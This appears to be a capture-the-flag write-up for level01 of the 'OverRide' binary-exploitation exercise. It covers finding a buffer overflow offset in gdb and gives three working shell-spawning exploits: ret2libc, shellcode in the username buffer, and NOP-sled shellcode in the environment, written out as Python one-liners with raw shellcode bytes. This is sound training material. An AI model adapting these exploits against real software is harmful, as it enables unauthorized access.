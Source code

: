 # level01
For this binary, `NX` is disabled.

The program waits for username and password entry in `stdin`


## Step 1 : Enter in the program
Once decompiled, we can see that the program compares the username entry with `dat_wil`.

## Step 2 : Figure out the vulnerability
Then, the program compares the password entry with `admin`, but it always performs the failed login message.

Also, the program reads 100 bytes for the password entry with `fgets` and store the input in a buffer of 64 bytes. __This is the vulnerability__

## Step 3 : Find the offset
Find the offset of the instruction pointer by using `gdb` and [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```console
level01@OverRide:~$ gdb -q level01
(gdb) run
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

- The program segfaults, because it continue to `0x37634136` address.
- `0x37634136` is at the 80th position from the beginning of the buffer. At this positon, it overwrites the program counter: `eip`.

## Exploit with Ret2libc
Overwrite `eip` with a [__Ret2libc__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) attack.

1. Address of system: `(gdb) p system` --> `0xf7e6aed0`
2. Address of exit: `(gdb) p exit` --> `0xf7e5eb70`
3. Address of "/bin/sh": `find &system,+9999999,"/bin/sh"` --> `0xf7f897ec`

```bash
(python -c 'print "dat_wil" + "\n" + "A" * (80) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level01/level01
```

The `[::-1]` is used to reverse the string because of the little-endian architecture. see [slicing in python](https://stackoverflow.com/questions/509211/how-slicing-in-python-works).
 
> Dont forget to run the binary with the same environment as in gdb (run the binary with the absolute path / unset LINES COLUNMS)
- https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue


- https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

## Exploit with a Shellcode in username buffer

Impossible to store instruction in the password buffer. Go to the password buffer occurs a segfault  

Solution: Use the username buffer to store the shellcode.  

Username is stored in a global variable named `a_user_name`
```bash
objdump -t level01 | grep a_user_name
```  
```console
0804a040 g     O .bss	00000064              a_user_name
```
`a_user_name` is at `0x0804a040`

- Write a shellcode at the end of the buffer
- Return to the address of the `a_user_name` + 7 bytes

> 7 bytes are added to skip the `dat_wil` string and reach the shellcode.

```bash
(python -c 'print "dat_wil" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\n" + "A" * (80) + "\x08\x04\xa0\x47"[::-1] '; cat) | /home/users/level01/level01
```

shell code [here](https://shell-storm.org/shellcode/files/shellcode-752.html)


## Exploit with a Shellcode in the environment
1. export the shellcode in the environment
2. Get the address of the shellcode
3. Return to the shellcode

### 1. Put a shellcode in an environment variable
```bash
env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') gdb -q level01
```

> unset the environment with `env -i` to avoid the memory shifting between the normal execution and the debug mode.

### 2. Get the address of the environment variable
```console
(gdb) b *main
(gdb) r
(gdb) x/5s *((char **)environ + 0)
0xffffdd8d:	 "COLUMNS=169"
0xffffdd99:	 "PWD=/home/users/level01"
0xffffddb1:	 "LINES=41"
0xffffddba:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220...
```

Shellcode is at `0xffffddba` + 512 bytes of `NOP` = `0xffffdfba`

### 3. Return to the environment variable
```bash
(python -c 'print "dat_wil" + "\n" + "A" * 80 + "\xff\xff\xdf\xba"[::-1]'; cat) | env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') /home/users/level01/level01
```